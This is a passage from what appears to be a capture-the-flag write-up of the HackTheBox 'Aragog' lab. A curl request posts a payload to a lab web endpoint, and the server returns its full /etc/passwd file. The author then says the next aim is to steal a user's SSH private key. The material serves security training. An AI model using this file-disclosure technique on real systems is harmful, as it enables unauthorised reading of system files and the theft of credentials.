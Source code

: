 Let's test our payload with `curl`.

```
root@kali:~/htb/aragog# curl -d @test.txt http://10.10.10.78/hosts.php

There are 4294967294 possible hosts for root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
lightdm:x:108:114:Light Display Manager:/var/lib/lightdm:/bin/false
whoopsie:x:109:117::/nonexistent:/bin/false
avahi-autoipd:x:110:119:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/false
avahi:x:111:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/bin/false
colord:x:113:123:colord colour management daemon,,,:/var/lib/colord:/bin/false
speech-dispatcher:x:114:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
hplip:x:115:7:HPLIP system user,,,:/var/run/hplip:/bin/false
kernoops:x:116:65534:Kernel Oops Tracking Daemon,,,:/:/bin/false
pulse:x:117:124:PulseAudio daemon,,,:/var/run/pulse:/bin/false
rtkit:x:118:126:RealtimeKit,,,:/proc:/bin/false
saned:x:119:127::/var/lib/saned:/bin/false
usbmux:x:120:46:usbmux daemon,,,:/var/lib/usbmux:/bin/false
florian:x:1000:1000:florian,,,:/home/florian:/bin/bash
cliff:x:1001:1001::/home/cliff:/bin/bash
mysql:x:121:129:MySQL Server,,,:/nonexistent:/bin/false
sshd:x:122:65534::/var/run/sshd:/usr/sbin/nologin
ftp:x:123:130:ftp daemon,,,:/srv/ftp:/bin/false
```

Success! We can see here that we have two users, florian and cliff. Let's see if we can get someone's SSH private key.

